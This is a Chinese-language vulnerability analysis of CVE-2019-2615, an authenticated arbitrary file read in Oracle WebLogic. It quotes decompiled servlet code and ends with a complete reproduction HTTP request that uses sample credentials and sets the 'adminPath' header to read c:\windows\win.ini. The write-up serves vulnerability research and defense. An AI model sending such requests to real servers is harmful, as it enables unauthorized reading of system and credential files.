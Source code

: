 （CVE-2019-2615）Weblogic 任意文件读取漏洞
==========================================

一、漏洞简介
------------

攻击者可以在已知用户名密码的情况下读取WebLogic服务器中的任意文件。

二、漏洞影响
------------

Weblogic 10.3.6.0Weblogic 12.1.3.0Weblogic 12.2.1.2Weblogic 12.2.1.3

三、复现过程
------------

### 漏洞分析

该功能的关键代码在
`weblogic.management.servlet.FileDistributionServlet`的doGet()方法中：

    public void doGet(final HttpServletRequest var1, final HttpServletResponse var2) throws ServletException, IOException {
        AuthenticatedSubject var3 = this.authenticateRequest(var1, var2);
        if(var3 != null) {
            final String var4 = var1.getHeader("wl_request_type");
            if(var3 != KERNEL_ID) {
                AdminResource var5 = new AdminResource("FileDownload", (String)null, var4);
                if(!this.am.isAccessAllowed(var3, var5, (ContextHandler)null)) {
                    ManagementLogger.logErrorFDSUnauthorizedDownloadAttempt(var3.getName(), var4);
                    var2.sendError(401);
                    return;
                }
            }

            try {
                if(debugLogger.isDebugEnabled()) {
                    debugLogger.debug("---- >doGet incoming request: " + var4);
                }

                if(var4.equals("wl_xml_entity_request")) {
                    this.doGetXMLEntityRequest(var1, var2);
                } else if(var4.equals("wl_jsp_refresh_request")) {
                    this.doGetJspRefreshRequest(var1, var2);
                } else if(var4.equals("file")) {
                    this.doGetFile(var1, var2);
                } else if(!var4.equals("wl_init_replica_request") && !var4.equals("wl_file_realm_request") && !var4.equals("wl_managed_server_independence_request")) {
                    var2.addHeader("ErrorMsg", "Bad request type");
                    String var10 = Utils.encodeXSS(var4);
                    var2.sendError(400, "Bad request type: " + var10);
                    ManagementLogger.logBadRequestInFileDistributionServlet(var4);
                } else {
                    ......
                    ......
                    }
                }
            } catch (Exception var9) {
                if(!Kernel.isInitialized()) {
                    throw new AssertionError("kernel not initialized");
                }

                ManagementLogger.logErrorInFileDistributionServlet(var4, var9);
            }

        }
    }

代码也比较简单，先取request中header的参数\"wl\_request\_type\"的值，然后判断如果该值等于"wl\_xml\_entity\_request"、"wl\_jsp\_refresh\_request"、"file"\...\...则分别调用各自的方法，进入下一步判断。我们看一下如果wl\_request\_type的值为"wl\_jsp\_refresh\_request"，进入doGetJspRefreshRequest()方法。我们跟入doGetJspRefreshRequest()方法：

    private void doGetJspRefreshRequest(HttpServletRequest var1, HttpServletResponse var2) throws IOException {
         String var3 = var1.getHeader("adminPath");

         try {
             FileInputStream var4 = new FileInputStream(var3);

             try {
                 var2.setContentType("text/plain");
                 var2.setStatus(200);
                 this.returnInputStream(var4, var2.getOutputStream());
             } finally {
                 var4.close();
             }

         } catch (IOException var10) {
             String var5 = "I/O Exception getting resource: " + var10.getMessage();
             var2.addHeader("ErrorMsg", var5);
             var2.sendError(500, var5);
         }
     }

doGetJspRefreshRequest()方法中的"adminPath"也是request中的header参数，我们在Post包中传入要读取的文件。进入该方法中，直接使用FileInputStream类进行文件读取，故造成了所谓的"任意文件读取"漏洞。

### 漏洞复现

    GET /bea_wls_management_internal2/wl_management HTTP/1.1
    Host: www.0-sec.org:7001
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    username:weblogic
    password:admin123456
    wl_request_type:wl_jsp_refresh_request
    adminPath:c:\windows\win.ini
    Upgrade-Insecure-Requests: 1

![M\~P\`JFB4OPB3JUN7FJ\_F.png](./.resource/(CVE-2019-2615)Weblogic任意文件读取漏洞/media/rId26.png)
